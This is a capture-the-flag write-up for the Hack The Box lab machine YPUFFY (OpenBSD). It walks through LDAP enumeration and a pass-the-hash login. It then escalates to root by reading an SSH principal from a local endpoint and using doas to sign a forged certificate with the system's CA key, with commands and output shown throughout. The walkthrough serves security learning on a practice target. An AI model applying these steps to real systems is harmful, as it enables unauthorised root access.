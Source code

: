 # YPUFFY
### Info:
OS: OpenBSD<br>
IP: 10.10.10.107<br>
Difficulty : Medium++<br>
### Enumeration:
```
nmap -sC -sV -oA nmap 10.10.10.107
```
gives us the results : <br>
![alt text](https://i.imgur.com/BJviGis.png) <br>
We find port 389(ldap) port open
<br>
### Exploitation:
Vulnerability Exploited: Pass the hash<br>
![alt text](https://i.imgur.com/XhqlEXQ.png)<br>
As we find ldap we connect it via gui and find user alice1978 and her password hash.
![alt text](https://i.imgur.com/IvWB3dO.png)<br>
Using those creds we connect via smbclient and find a `.ppk` file which is putty private files.<br>
We convert `.ppk to .key` files for ssh
![alt text](https://i.imgur.com/1Pe7t1T.png)
<br>
### Privilege Escalation:
We look into `access.log` in dir `/var/www/logs`
```
ypuffy$ cat access.log | grep root
ypuffy.hackthebox.htb 127.0.0.1 - - [31/Jul/2018:23:36:34 -0400] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [31/Jul/2018:23:36:34 -0400] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [31/Jul/2018:23:37:37 -0400] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [31/Jul/2018:23:37:37 -0400] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:09:07 -0500] "GET /sshauth?type=keys%2526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:15:10 -0500] "GET /sshauth?type=keys%252526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:16:58 -0500] "GET /sshauth?type=keys%2526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 10.10.16.16 - - [29/Jan/2019:15:17:59 -0500] "GET /sshauth?type=keys%252526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 10.10.16.16 - - [29/Jan/2019:15:18:12 -0500] "GET /sshauth?type=keys%2526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 10.10.16.16 - - [29/Jan/2019:15:18:46 -0500] "GET /sshauth?type=keys%2526username=root HTTP/1.1" 400 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:34:56 -0500] "GET /sshauth?type=principals%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:38:56 -0500] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:52:21 -0500] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:52:21 -0500] "GET /sshauth?type=principals%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:15:52:21 -0500] "GET /sshauth?type=principals%26username=root HTTP/1.1" 200 0
ypuffy.hackthebox.htb 127.0.0.1 - - [29/Jan/2019:20:27:45 -0500] "GET /sshauth?type=keys%26username=root HTTP/1.1" 200 0
```
where we see a specific `principals` command log. <br>
Making a curl request :
```
ypuffy$ curl "http://127.0.0.1/sshauth?type=principals&username=root"
```
gives us `3m3rgencyB4ckd00r`. <br>
Going into /tmp and doing :
```
ypuffy$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/alice1978/.ssh/id_rsa): test_ca
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in test_ca.
Your public key has been saved in test_ca.pub.
The key fingerprint is:
SHA256:ZRHEu5Qo/wCw1V5n22tizg0jf2AvgemJzzJY7sfK+qI alice1978@ypuffy.hackthebox.htb
The key's randomart image is:
+---[RSA 2048]----+
|       . o+.     |
|    . . . o.o    |
|     + . oo= o   |
|    . o oo+ . .  |
|       +S. +   . |
|        + = O o  |
|       + * O X   |
|      o.=.* = +  |
|    E..==*o  o   |
+----[SHA256]-----+
```
We are going to use the doas command to run the ssh-keygen command as the `userca` user:
```
doas -u userca /usr/bin/ssh-keygen -s /home/userca/ca -n 3m3rgencyB4ckd00r -I root -V +1w test_ca.pub
```
Now we should be able to SSH as root user!
```
ssh -v -i test_ca root@localhost
```
### Gained knowledge:
SSH-keygen <br>
ldap and smbclient usage <br>
Privesc OpenBsd <br>
Pass the hash attack 
